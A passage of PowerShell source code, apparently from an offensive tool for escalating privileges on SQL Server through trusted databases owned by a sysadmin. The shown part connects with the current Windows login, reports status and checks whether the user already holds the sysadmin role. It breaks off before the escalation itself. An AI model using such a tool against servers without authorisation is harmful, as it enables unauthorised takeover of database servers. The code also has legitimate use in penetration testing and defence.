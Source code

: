             # Trusted connection
            $conn.ConnectionString = "Server=$SqlServerInstance;Database=master;Integrated Security=SSPI;"
            $UserDomain = [Environment]::UserDomainName
            $Username =  [Environment]::UserName
            $ConnectUser = "$UserDomain\$Username"
           
        }

        # Status User
        write-host "[*] Attempting to Connect to $SqlServerInstance as $ConnectUser..."

        # Attempt database connection
        try{
            $conn.Open()
            write-host "[*] Connected." -foreground "green"
        }catch{
            $ErrorMessage = $_.Exception.Message
            write-host "[*] Connection failed" -foreground "red"
            write-host "[*] Error: $ErrorMessage" -foreground "red"  
            Break
        }

        # -----------------------------------------------
        # Create data tables for later
        # -----------------------------------------------

        # Create data table to house list of trusted databases owned by a sysadmin  
        $IsSysAdmin = New-Object System.Data.DataTable
        $TableDatabases = New-Object System.Data.DataTable 
        $TableDBOwner = New-Object System.Data.DataTable 
        $CheckforSysadmin = New-Object System.Data.DataTable 

        # -----------------------------------------------
        # Check if user is already a sysadmin
        # -----------------------------------------------
        $QueryElevate = "select is_srvrolemember('sysadmin') as IsSysAdmin"
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
        $results = $cmd.ExecuteReader() 
        $IsSysAdmin.Load($results) 
        $conn.Close() 
        $IsSysAdmin | Select-Object -First 1 IsSysAdmin | foreach {
